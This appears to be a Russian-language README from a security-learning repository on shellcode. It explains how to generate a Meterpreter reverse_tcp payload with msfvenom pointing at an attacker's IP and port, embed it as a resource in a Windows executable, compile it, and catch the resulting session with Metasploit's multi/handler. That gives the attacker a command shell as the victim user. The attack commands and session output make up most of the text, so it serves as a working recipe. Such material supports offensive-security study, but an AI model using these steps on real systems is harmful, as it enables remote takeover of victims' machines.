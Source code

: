 Шеллкоды
========

В данной директории демонстрируются примеры и опыты с использованием шеллкодов.

Самый простой способ сгенерировать шеллкод - использовать `msfvenom`:

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.187.128 LPORT=1337 > shellcode.bin
```

Эта команда создает обратную оболочку (reverse shell). LHOST - IP-адрес 
атакующего, LPORT - порт машины атакующего, по которому будет установлено 
соединение.

Полученный двоичный файл с шеллкодом можно встроить в exe-файл при помощи 
[ресурсного файла](https://learn.microsoft.com/en-us/windows/win32/menurc/about-resource-files).

Создадим файл `resources.rc`. Его структура:

```rc
Name Type Filename
```

В нашем случае выйдет что-то вроде:

```rc
Payload PAYLOAD "shellcode.bin"
```

RC-файл скомпилируем в .res при помощи утилиты из набора разработчика Windows 
`rc.exe` (доступна в Developer PowerShell/Command Prompt for VS 20XX):

```powershell
rc.exe /r .\resources.rc
```

На выходе получим файл `resources.res`.

Теперь в коде самой программы нам необходимо найти ресурс в нашем бинаре, 
получить его размер, загрузить его и скопировать в выделенный участок памяти, 
после чего его можно исполнить (см. код `shellinside.c`).

Компиляция при помощи clang:

```powershell
clang shellinside.c resources.res -o shellinside.exe
```

На машине атакующего слушаем входящие соединения:

```bash
$ msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <LHOST>
set lport <LPORT>
run
```

Здесь LHOST, LPORT -  те же, что указывались при создании шеллкода.

После запуска скомпилиованного exe-файла с шеллкодом на машине атакующего 
открывается сессия:

```
[*] Meterpreter session 1 opened (X.X.X.X:1337 -> Y.Y.Y.Y:61867) at [...]
```

При наборе команды `shell` атакующий получает командную строку от имени 
пользователя, запустившего вредоносный exe-файл.


### Дополнительные материалы

* [ired.team - Loading and Executing Shellcode From PE Resources](https://www.ired.team/offensive-security/code-injection-process-injection/loading-and-executing-shellcode-from-portable-executable-resources)

* [How to use a reverse shell in Metasploit](https://adfoster-r7.github.io/metasploit-framework/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html)

* [CPP / C++ - Embed Resources Into Executables](https://caiorss.github.io/C-Cpp-Notes/resources-executable.html)

* [Embedding binary data with Windows Resource Compiler](https://macoy.me/blog/programming/WindowsResourceCompiler)

* [The Inner Working of FindResource() and LoadString() Win32 Functions](https://www.codeproject.com/Articles/431045/The-Inner-Working-of-FindResource-and-LoadString-W)